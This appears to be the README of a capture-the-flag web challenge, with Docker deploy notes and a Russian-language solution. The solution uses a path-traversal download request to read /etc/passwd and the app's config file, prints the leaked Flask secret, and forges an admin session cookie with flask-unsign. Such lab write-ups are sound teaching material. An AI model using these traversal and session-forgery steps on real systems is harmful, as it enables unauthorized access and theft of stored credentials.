 
### Deploy
* Change .env
* Change admin password in init.sql query
* Change secret key in config.py
* Change flag in strongbox/app/config.py
```sh
#> docker-compose up
```
### решение
0) Регистрируемся
1) В функционале перевода паролей в csv находим lfi:
```sh
http://address:31337/download?fn=../etc/passwd
```


2) (сложная часть) находим файл /app/config.py, видим там секрет, которым подписываются сессии фласка
```sh
90e714e15f86badc25dd703620d8151d
```

3) Подписываем этим ключем токен
```sh
flask-unsign --sign --cookie "{'username': 'admin'}" --secret '90e714e15f86badc25dd703620d8151d'
```
В сохраненных паролях админа будет флаг

Примечание: флаг по пути /flag.txt фейковый
